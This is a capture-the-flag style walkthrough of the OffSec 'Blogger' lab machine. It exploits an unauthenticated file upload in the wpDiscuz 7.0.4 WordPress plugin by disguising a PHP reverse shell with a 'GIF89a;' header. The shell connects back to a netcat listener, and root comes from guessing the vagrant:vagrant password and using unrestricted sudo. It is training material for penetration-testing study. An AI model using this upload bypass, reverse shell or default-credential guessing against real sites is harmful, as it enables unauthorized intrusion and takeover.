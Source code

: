 ```yaml
---
title : "Blogger - Walkthrough"
date : 21-10-2024 05:00:00
tags : [Offsec-Play, OSCP]
---
```


## Summary

In this guide we will exploit an arbitary file upload in the `wpDiscuz version 7.0.4` plugin and obtain root access with a simple and straightforward method of privilege escalation.

## Enumeration

We begin the enumeration process with an `nmap` scan.

```
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.120.183            

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-05 04:19 MST
Nmap scan report for 192.168.120.183
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.40 seconds
```

We see ports `22` and `80` open on the target.

Navigating to port `80` we see the following static webpage.

![Home](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_1_Dx3Rt6YL.png)

Home

Turning our attention to content discovery, we bruteforce directories with `gobuster`.

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.120.183/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.120.183/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/04 07:37:35 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 319] [--> http://192.168.120.183/images/]
/assets               (Status: 301) [Size: 319] [--> http://192.168.120.183/assets/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.120.183/css/]   
/js                   (Status: 301) [Size: 315] [--> http://192.168.120.183/js/] 
```

Navigating to the `assets` directory, we find a `blog` directory in the `assets/fonts` path which reveals a `wordpress` site.

![wp](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_2_Qazx16L9.png)

wp

During our enumeration we skim through the source code of any blog post and see that the site uses the `wpDiscuz version 7.0.4` plugin.

```
┌──(kali㉿kali)-[~]
└─$ curl http://blogger.pg/assets/fonts/blog/?p=29
<!DOCTYPE html>
<html lang="en-US">

<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="profile" href="http://gmpg.org/xfn/11">
<link rel="pingback" href="http://blogger.pg/assets/fonts/blog/xmlrpc.php">
......
<link rel='stylesheet' id='wpdiscuz-frontend-css-css'  href='http://blogger.pg/assets/fonts/blog/wp-content/plugins/wpdiscuz/themes/default/style.css?ver=7.0.4' type='text/css' media='all' />
```

After researching the `wpDiscuz version 7.0.4` plugin we see that it is vulnerable to an `Unauthenticated Arbitrary File Upload`.

Navigating to the comment section of any blog post, we see an upload form that accepts images.

![comment section](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_3_AL1Fg1KX.png)

comment section

As the comment section includes an upload form for images, we can attempt to upload a reverse shell in the `GIF89a` format, as it is common for any image upload functionality to allow GIFs as well.

We begin by grabbing a copy of a reverse shell to upload to the target, we will use the `php-reverse-shell.php` installed on kali by default.

```
┌──(kali㉿kali)-[~/blogger]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
```

We can add `GIF89a;` to the beginning of our `php-reverse-shell` to bypass any filters.

```
GIF89a;
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...
```

Next, we set up up a listener on our attack machine.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 443
listening on [any] 443 ...
```

Now we navigate to the comment section of any blog post, and attach our `php-reverse-shell.php` and fill in the necessary forms before submitting.

![upload](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_4_GD5ZLk7L.png)

upload

We receive a response in our listener and stabilize our shell by spawning a `python3` shell.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.120.150] 42538
Linux ubuntu-xenial 4.4.0-206-generic #238-Ubuntu SMP Tue Mar 16 07:52:37 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 15:39:15 up 58 min,  1 user,  load average: 0.04, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1                      14:41   57:54   0.05s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu-xenial:/$
```

## Privilege Escalation

In the `/home` directory, we see the users `james`,`ubuntu` and `vagrant`.

```
www-data@ubuntu-xenial:/home$ ls
ls
james  ubuntu  vagrant
```

We can guess the credentials of the user `vagrant` as `vagrant:vagrant`.

```
www-data@ubuntu-xenial:/$ su vagrant
su vagrant
Password: vagrant
vagrant@ubuntu-xenial:/$
```

Running the “sudo -l” command reveals that the user `vagrant` is permitted to run all commands.

```
vagrant@ubuntu-xenial:/$ sudo -l
sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL

```

We can achieve root access by using `sudo su`.

```
vagrant@ubuntu-xenial:/$ sudo su 
sudo su 
root@ubuntu-xenial:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```